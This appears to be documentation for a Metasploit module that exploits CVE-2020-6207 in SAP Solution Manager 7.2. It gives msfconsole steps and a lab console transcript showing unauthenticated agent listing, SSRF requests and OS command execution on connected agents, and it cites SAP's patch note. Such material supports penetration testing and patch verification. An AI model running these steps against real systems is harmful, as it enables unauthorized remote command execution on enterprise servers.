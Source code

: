 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting SOAP requests to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF), and execute OS commands on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation of the vulnerability enables unauthenticated remote attackers to achieve SSRF and execute OS commands from the agent connected
to SolMan as a user from which the SMDAgent service starts, usually the daaadm.

Paper: [An Unauthenticated Journey to Root][1]

Solution: [sap note 2890213][2]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is tightly connected to all other SAP systems with high privileges.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining the enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][3].

Once set up and configured, the instances will be vulnerable on the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set action LIST`
1. Do: `run`
1. Verify that a list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set SSRF_METHOD [GET, POST, PUT, DELETE, PATCH, ...]`
1. Do: `set SSRF_URI [SSRF uri, example - http://1.1.1.1/test.html]`
1. Do: `set action SSRF`
1. Do: `run`
1. Verify that the HTTP request from the connected agent has been sent.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set COMMAND [OS command, example - ping -c 4 1.1.1.1]`
1. Do: `set action EXEC`
1. Do: `run`
1. Verify that the OS command has been executed on the connected agent.

## Options

### URIPATH

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed at a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent sever name.
Example: `linux_agent`

### SSRF_METHOD

HTTP method for sending HTTP request from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `GET`

### SSRF_URI

URI for sending HTTP requests from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `http://1.1.1.1/test.html`

### COMMAND

OS command for executing in connected agent, the server name of which is specified in the `AGENT` option.
Example: `ping -c 4 1.1.1.1`

## Actions
```
   Name  Description
   ----  -----------
   EXEC  Exec OS command on connected agent
   LIST  List connected agents
   SSRF  Send SSRF from connected agent
```

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/cve_2020_6207_solman_rce
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION LIST
ACTION => LIST
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Getting a list of agents connected to the Solution Manager: 172.16.30.46
[+] Connected agents list:
+--------------+------------------------+---------------+------------------------+--------------+
| Server Name  | Host Name              | Instance Name | OS Name                | Java Version |
+--------------+------------------------+---------------+------------------------+--------------+
| test_linux   | SAPERP.corp.test.com   | SMDA98        | Linux                  | 1.8.0_25     |
| test_windows | SAP731.corp.test.com   | SMDA97        | Windows Server 2008 R2 | 1.6.0_29     |
+--------------+------------------------+---------------+------------------------+--------------+
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_METHOD PUT
SSRF_METHOD => PUT
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_URI http://192.168.50.2:9999/
SSRF_URI => http://192.168.50.2:9999/
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION SSRF
ACTION => SSRF
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[+] Send SSRF: 'PUT http://192.168.50.2:9999/ HTTP/1.1' from agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set COMMAND ping -c 4 192.168.50.2
COMMAND => ping -c 4 192.168.50.2
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set action EXEC
action => EXEC
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[+] Execution command: 'ping -c 4 192.168.50.2' on agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                            References
---------                ----          ----                                                            ----------
2021-03-21 10:31:36 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution  CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207

```

[1]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[2]: https://launchpad.support.sap.com/#/notes/2890213
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/
